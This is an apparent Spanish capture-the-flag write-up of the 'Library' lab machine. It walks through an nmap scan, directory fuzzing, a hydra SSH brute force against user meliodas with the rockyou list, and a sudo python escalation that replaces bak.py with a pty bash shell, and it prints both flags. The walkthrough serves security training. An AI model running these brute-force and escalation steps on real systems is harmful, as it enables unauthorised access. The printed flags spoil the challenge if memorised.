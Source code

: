 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.png)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170508.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221171240.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221171339.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221171459.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221171938.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221172044.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221172143.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221172307.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221172514.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221172815.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221172922.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221173014.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












